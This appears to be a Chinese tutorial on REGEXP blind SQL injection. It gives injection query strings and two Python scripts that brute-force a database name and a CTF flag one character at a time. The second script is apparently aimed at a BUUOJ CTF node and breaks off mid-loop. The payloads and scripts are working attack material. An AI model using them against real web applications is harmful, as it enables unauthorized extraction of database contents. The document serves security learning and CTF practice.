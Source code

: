 

### REGEXP 注入（正则表达式注入（盲注））

REGEXP注入，即regexp正则表达式注入。REGEXP注入，又叫盲注值正则表达式攻击。应用场景就是盲注，原理是直接查询自己需要的数据，然后通过正则表达式进行匹配。

1. 判断数据库长度

```sql
/?id=' or (length(database())) regexp 8 --+  // 回显正常
```

1. 判断数据库名

```sql
/?id=' or database() regexp '^s'--+    // 回显正常
/?id=' or database() regexp 'se'--+    // 回显正常, 不适用^和$进行匹配也可以
/?id=' or database() regexp '^sa'--+   // 报错
/?id=' or database() regexp 'y$'--+    // 回显正常
```

脚本：

```python
import requests
import string

# strs = string.printable
strs = string.ascii_letters + string.digits + '_'
url = "xxxxxxxxxxxxxxx/?id="

payload = "' or (select database()) regexp '^{}'--+"

if __name__ == "__main__":
    name = ''
    for i in range(1, 40):
        char = ''
        for j in strs:
            payloads = payload.format(name + j)
            urls = url + payloads
            r = requests.get(urls)
            if "You are in" in r.text:
                name += j
                print(j, end='')
                char = j
                break
        if char == '#':
            break
            
            

import requests
from urllib import parse
import string
url = 'http://f506ce94-1374-4a22-9aec-fcdaf4e3cd6c.node4.buuoj.cn:81/index.php'
num = 0
flag = ''
string= string.ascii_lowercase + string.digits + '_'# flag是由小写字母数字和_组成
for i in range (1,50):
    if num == 1 :
        break
    for j in string:
        data = {
            #sql语句：select * from users where username = '\' and passwd=' || 1/**/regexp/**/"^{payload}";%00'
            "username":"\\",
            "passwd":"||/**/passwd/**/regexp/**/\"^{}\";{}".format((flag+j),parse.unquote('%00'))
        }#这里的%00是因为其他注释符号都被禁用了，因此使用%00截断来代替
```